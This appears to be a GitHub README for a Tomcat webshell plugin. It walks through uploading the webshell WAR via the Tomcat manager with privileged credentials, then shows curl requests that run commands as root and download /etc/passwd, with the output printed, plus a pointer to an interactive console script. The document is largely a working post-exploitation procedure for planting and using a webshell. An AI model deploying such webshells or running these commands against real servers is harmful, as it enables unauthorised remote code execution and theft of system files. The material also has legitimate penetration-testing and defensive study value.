



# Apache Tomcat - Upload an app

## Requirements

 - A valid **username and password** of a user with high privileges on Apache Tomcat.

## Exploitation

### Step 1: Access the Tomcat manager and upload the webshell plugin

First of all, you will need to access the Apache Tomcat `/manager` page at http://127.0.0.1:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.



Then choose the WAR file of the webshell plugin and click on "Deploy":



And the application is deployed:


### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:



### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/Tomcat-plugin-webshell/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/168489455-023b52c5-e8a9-4cd9-96ca-f26c14304236.mp4

## References
 - https://tomcat.apache.org/
